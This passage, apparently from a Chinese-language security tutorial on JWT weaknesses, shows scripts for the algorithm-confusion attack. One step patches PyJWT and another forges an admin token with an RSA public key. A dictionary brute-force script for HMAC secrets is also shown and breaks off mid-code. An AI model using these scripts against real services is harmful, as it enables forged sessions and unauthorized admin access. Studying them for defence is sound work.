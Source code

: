 ```
    sys.stdout.write(
            '%s------------- As above, but with a trailing newline: ------------%s%s' % \
            (sep, sep, jwt.encode(claims, secret, algorithm='HS256',
                headers=headers).decode('utf-8')))
```

注意，因为 jwt 模块更新后，防止滥用，加入了强校验，如果指定算法为 HS256 而提供 RSA 的公钥作为 key 时会报错，无法往下执行，需要注释掉 **site-packages/jwt/algorithm.py** 中的如下四行：

[![](https://p2.ssl.qhimg.com/t01bc311e945bb7df7b.png)](https://p2.ssl.qhimg.com/t01bc311e945bb7df7b.png)

再把整个 python 代码流程精简一下，使用以下脚本即可，public.pem 为 RSA 公钥：

```
# -*- coding: utf-8 -*-

import jwt

public = open('public.pem', 'r').read()
prin(jwt.encode({"user":"admin","id":1}, key=public, algorithm='HS256'))
```

[![](https://p1.ssl.qhimg.com/t0138f6f20f2bc30966.png)](https://p1.ssl.qhimg.com/t0138f6f20f2bc30966.png)

暴力破解密钥
------

当 alg 指定 HMAC 类对称加密算法时，可以进行针对 key 的暴力破解

其核心原理即为 jwt 模块的 decode 验证模式，

```
jwt.decode(jwt_json, verify=True, key='')
```

1.  签名直接校验失败，则 key 为有效密钥；
2.  因数据部分预定义字段错误：

*   jwt.exceptions.ExpiredSignatureError
*   jwt.exceptions.InvalidAudienceError
*   jwt.exceptions.InvalidIssuedAtError
*   jwt.exceptions.InvalidIssuedAtError
*   jwt.exceptions.ImmatureSignatureError 导致校验失败，说明并非密钥错误导致，则 key 也为有效密钥；

1.  因密钥错误
    
    *   jwt.exceptions.InvalidSignatureError
    
    导致校验失败，则 key 为无效密钥；
    
2.  因其他原因（如，jwt 字符串格式错误）导致校验失败，无法验证当前 key 是否有效。

综上分析，构造字典爆破脚本：

```
import jwt

jwt_json='eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJpZCI6MX0.S5iudTeUBkKZa2Ah_MR_JdAsSBUFrnF3kn1FL-Cvsks'
with open('dict.txt',encoding='utf-8') as f:
        for line in f:
            key = line.strip()
            try:
                jwt.decode(jwt_json,verify=True,key=key,algorithm='HS256')
                print('found key! --> ' +  key)
                break
            except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.ImmatureSignatureError):
```